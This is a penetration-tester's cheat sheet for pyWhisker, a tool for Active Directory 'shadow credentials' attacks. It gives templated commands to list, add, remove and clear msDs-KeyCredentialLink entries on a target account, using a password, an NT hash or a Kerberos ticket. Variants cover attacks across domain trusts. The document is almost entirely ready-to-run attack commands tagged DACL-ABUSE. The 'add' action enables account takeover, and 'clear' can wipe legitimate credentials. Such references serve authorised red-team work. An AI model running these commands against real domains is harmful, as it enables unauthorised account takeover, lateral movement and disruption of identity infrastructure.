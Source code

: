 # pyWhisker

% dacl, shadow credentials, msDs-KeyCredentialLink, https://github.com/ShutdownRepo/pywhisker
#plateform/linux #target/remote #cat/AD/RECON 


## pyWhisker - Notes
```
To install add pycryptodome to requirements.txt
plus
pip install pyOpenSSL==24.0.0
```

## pyWhisker - Attack requierements
```
GenericAll, GenericWrite, WriteProperty or Validated-SPN 
DC must have its own certificate and keys (RB-ERROR (16) : KDC_ERR_PADATA_TYPE_NOSUPP)
```

## auth - cred
```bash
-u <user> -p <password> 
```

## auth - pth
```bash
-u <user> -H <nt_hash> 
```

## auth - ptt
```bash
-u <user> -k -no-pass 
```

## list all current KeyCredentials ID and creation time (cred)
```
pywhisker.py --dc-ip <dc_ip> -d <domain_fqdn> -u <user> -p <password> --target <target_user> --action "list"
```


## list all current KeyCredentials ID and creation time (pth)
```
pywhisker.py --dc-ip <dc_ip> -d <domain_fqdn> -u <user> -H <nt_hash> --target <target_user> --action "list"
```

## list all current KeyCredentials ID and creation time (ptt)
```
pywhisker.py -k -no-pass --dc-ip <dc_ip> -d <domain_fqdn> -u <user> --target <target_user> --action "list"
```

## get info on KeyCredential (pth)
```
pywhisker.py --dc-ip <dc_ip> -d <domain_fqdn> -u <user> -H <nt_hash> --target <target_user> --action "info" --device-id=<device_id>
```


## remove KeyCredential (pth)
#cat/ATTACK/AD/DACL-ABUSE
```
pywhisker.py --dc-ip <dc_ip> -d <domain_fqdn> -u <user> -H <nt_hash> --target <target_user> --action "remove" --device-id=<device_id>
```

## clear KeyCredential (pth)
#cat/ATTACK/AD/DACL-ABUSE
```
pywhisker.py --dc-ip <dc_ip> -d <domain_fqdn> -u <user> -H <nt_hash> --target <target_user> --action "clear" 
```

## add KeyCredential (pth)
#cat/ATTACK/AD/DACL-ABUSE
```
pywhisker.py --dc-ip <dc_ip> -d <domain_fqdn> -u <user> -H <nt_hash> --target <target_user> --action "add"  -f <pfx_file> -P <pfx_password|jubeaz>
```


## cross-domain - list all current KeyCredentials ID and creation time (cred) (TRUST)
#cat/ATTACK/AD/DACL-ABUSE
```
pywhisker.py --dc-ip <target_dc_ip> --target-domain <target_domain> -d <domain_fqdn> -u <user> -p <password> --target <target_user> --action "list"
```


## cross-domain - list all current KeyCredentials ID and creation time (pth)
```
pywhisker.py --dc-ip <target_dc_ip> --target-domain <target_domain> -d <domain_fqdn> -u <user> -H <nt_hash> --target <target_user> --action "list"
```


## cross-domain - get info on KeyCredential (pth)
```
pywhisker.py --dc-ip <target_dc_ip> --target-domain <target_domain> -d <domain_fqdn> -u <user> -H <nt_hash> --target <target_user> --action "info" --device-id=<device_id>
```


## cross-domain - remove KeyCredential (pth)
#cat/ATTACK/AD/DACL-ABUSE
```
pywhisker.py --dc-ip <target_dc_ip> --target-domain <target_domain> -d <domain_fqdn> -u <user> -H <nt_hash> --target <target_user> --action "remove" --device-id=<device_id>
```

## cross-domain - clear KeyCredential (pth)
#cat/ATTACK/AD/DACL-ABUSE
```
pywhisker.py --dc-ip <target_dc_ip> --target-domain <target_domain> -d <domain_fqdn> -u <user> -H <nt_hash> --target <target_user> --action "clear" 
```

## cross-domain - add KeyCredential (pth)
#cat/ATTACK/AD/DACL-ABUSE
```
pywhisker.py --dc-ip <target_dc_ip> --target-domain <target_domain> -d <domain_fqdn> -u <user> -H <nt_hash> --target <target_user> --action "add"  -f <pfx_file> -P <pfx_password|jubeaz>
```

